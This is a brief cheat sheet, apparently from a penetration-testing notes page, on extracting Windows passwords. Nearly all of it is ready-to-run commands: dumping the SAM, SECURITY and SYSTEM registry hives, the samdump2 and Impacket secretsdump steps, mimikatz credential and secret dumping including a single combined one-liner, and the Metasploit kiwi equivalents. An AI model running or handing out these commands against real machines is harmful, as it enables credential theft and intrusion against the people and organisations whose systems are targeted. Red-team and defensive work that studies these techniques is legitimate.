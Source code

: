 # Password Extraction

### samdump2

```
C:> reg save HKLM\SAM c:\SAM
C:> reg save HKLM\System c:\System

$ samdump2 System SAM
```

### mimikatz.exe

Need to match architectures.

```
privilege::debug
20 ‘OK’

sekurlsa::logonPasswords
lsadump::sam
lsadump::lsa /patch
lsadump::secrets
kerberos::list

mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

### Metasploit

```
load kiwi

creds_all
lsa_dump_lsa
lsa_dump_secrets
kerberos_list
```

### Impacket

Get a copy of the SYSTEM, SECURITY and SAM hives and download them back to your local system.

```
C:> reg.exe save hklm\sam c:\windows\temp\sam.save
C:> reg.exe save hklm\security c:\windows\temp\security.save
C:> reg.exe save hklm\system c:\windows\temp\system.save

$ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
